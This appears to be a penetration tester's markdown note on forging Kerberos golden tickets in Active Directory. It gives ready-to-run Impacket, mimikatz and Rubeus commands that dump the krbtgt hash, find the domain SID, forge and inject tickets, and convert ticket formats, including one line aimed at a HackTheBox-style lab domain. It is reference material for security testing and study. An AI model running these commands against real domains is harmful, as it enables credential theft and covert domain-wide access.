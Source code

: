 # Golden Tickets

>Silver and golden tickets are forged Kerberos tickets that can be used with pass-the-ticket to access services in an Active Directory domain.
>
**Golden ticket**: The NT hash (or AES key) of the special account `krbtgt` can be used to forge a special TGT (Ticket Granting Ticket) that can later be used with pass-the-ticket to access any resource within the AD domain.
>
In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key (128 or 256 bits). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation. The domain SID is also required.
>
Microsoft uses AES 256 bits by default. Using this encryption algorithm will be stealthier.
>
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```shell
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```

On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.
```shell
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump the domain SID
lsadump::lsa /inject /name:krbtgt

kerberos::golden /User:Administrator /domain:MARVEL.LOCAL /sid:$SID /krbtgt:NT /id:500 /ptt

misc::cmd

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically inject the ticket. 

#### Convert ticket to UNIX <-> Windows format
To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).
```shell
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```

[[impacket]]
```
./Rubeus.exe asktgs /ticket:ticket.kirbi /service:CIFS/DC01.GHOST.HTB /dc:GHOST.HTB /ptt /outfile:ticket.kirbi
```